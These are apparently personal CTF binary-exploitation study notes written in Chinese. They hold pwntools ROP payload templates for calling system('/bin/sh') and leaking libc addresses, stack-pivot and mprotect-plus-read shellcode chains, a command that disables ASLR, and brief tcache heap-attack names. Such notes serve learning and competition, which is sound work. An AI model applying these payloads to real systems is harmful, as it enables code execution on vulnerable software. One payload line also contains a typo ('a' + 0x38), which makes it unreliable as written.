

[toc]

# 1.杂

Ubuntu 18下偶尔会发生栈无法对齐的情况，多retn几次就好了。

`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断

## sys,write,puts,printf

system("/binsh")

```python
p32(e.plt['system']) + p32(0xdeadbeef) + p32(sh_addr)
p64(pop_rdi_ret) +  p64(sh_addr) + p64(e.sym['system'])
p64(pop_rdi_ret) + p64(bin_sh) + p64(sys_plt) + p64(0xdeadbeef)
```

write:输出，read（为0，输入）


```python
p32(write_plt) + p32(0x8048474) + p32(1) + p32(read_got) + p32(4)
p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got)
p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got)
p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got) + p32(4)
```

puts  

```python
p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(e.sym['vuln'])
p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)
```

printf:

```python
p32(printf_plt) + p32(main_addr) + p32(fmtstr_addr) + p32(printf_got)
p32(printf_plt) + p32(vuln_addr) + p32(fmt_addr) + p32(printf_got)
```

## 传参

32传参：

-   传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器
-   调用号：`sys_read` 的调用号 为 3，`sys_write`的调用号 为 4
-   调用方式: 使用 `int 80h`中断进行系统调用

64位传参：

-   传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 `rdi, rsi, rdx, rcx, r8, r9`寄存器中，返回值存在rax寄存器
-   调用号：`sys_read` 的调用号 为 0 ，`sys_write` 的调用号 为 1，
-   stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15
-   调用方式: 使用 syscall 进行系统调用

## 关闭aslr

**echo 0 > /proc/sys/kernel/randomize_va_space**


```c
gwt@ubuntu:~$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
gwt@ubuntu:~$ cyclic -l 0x61616166
20
```

## 关于recv地址

```
如果直接返回地址：%p这种：
stack_addr = int(io.recvuntil('\n',drop=True),16)

如果是这种：
[DEBUG] Received 0x2c bytes:
    00000000  42 79 65 62  79 65 7e 0a  a0 8a 14 5c  7e 7f 0a 57  │Byeb│ye~·│···\│~··W│
    00000010  65 6c 63 6f  6d 65 20 74  6f 20 41 43  54 46 27 73  │elco│me t│o AC│TF's│
    00000020  20 62 61 62  79 73 74 61  63 6b 21 0a               │ bab│ysta│ck!·│
那么
puts_addr = io.recvuntil('\x7f')[-6:]
puts_addr = puts_addr.ljust(8,'\x00')
print hex(u64(puts_addr))
```


# 1.Stack


## 1.栈迁移

payload：

```python
payload = p32(sys_addr) + 'aaaa' + p32(buf_add+12) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add-4) + p32(leave)
or
payload = 'aaaa'+ p32(sys_addr) + 'aaaa' + p32(buf_add+16) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add) + p32(leave)
```

​	


## 2.mprotect

mprotect函数，可以修改内存段的权限

```
int mprotect(void *addr, size_t len, int prot);
addr 内存启始地址
len  修改内存的长度
prot 内存的权限
```


```python
栈溢出到mprotect函数（call==push+jmp）
所以ret后要留一个返回地址，因为ret就相当于jmp到mprotect。
payload大致为：

payload = 'a'*0x38+p32(mprotect_add)+p32(ret_add)
payload+=p32(argu1) + p32(argu2) +p32 (argu3)
第一个参数是被修改内存的地址：0x80ea000
第二个参数是被修改内存的大小：必须是页的整数倍，0x1000
第三参数值权限：0x7
然后找个pop来平衡堆栈：
ROPgadget --binary get_started_3dsctf_2016 --only 'pop|ret'
因为是3个参数，就找3个pop
现在payload：
payload = 'a' + 0x38 + p32(mprotect_addr)
payload += p32(pop3_addr) + p32(mem_addr) + p32(mem_size) + p32 (mem_proc) + p32(ret_addr2)

ret_addr2是read函数的地址，将shellcode写入内存。
read函数原型：
ssize_t read(int fd, void *buf, size_t count);
fd 设为0时就可以从输入端读取内容
buf 设为我们想要执行的内存地址    
size 适当大小，足够写入shellcode就OK


mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']


payload  = 'A' * 0x38
payload += p32(mprotect_addr)
payload += p32(pop3_ret) 
payload += p32(mem_addr) 
payload += p32(mem_size)  
payload += p32(mem_proc)   
payload += p32(read_addr)
payload += p32(pop3_ret)  
payload += p32(0)     
payload += p32(mem_addr)   
payload += p32(0x1000) 
payload += p32(mem_addr) 
```


# 3.Heap

## 1.Tchache

每条链最多7个，满了后放入fastbin与unsortedbin。

malloc时优先去tcache中找。

tcache最大为0x400，大于就会放入unsortedbin。

**一些利用姿势**

### tcache dup

double free

### house_of_spirit

free掉伪造的chunk，这里不会对size前后的chunk进行检查

### overlapping

修改需要被free的size位，（包含其他chunk

### perthread_corruption

控制tcache的管理结构。


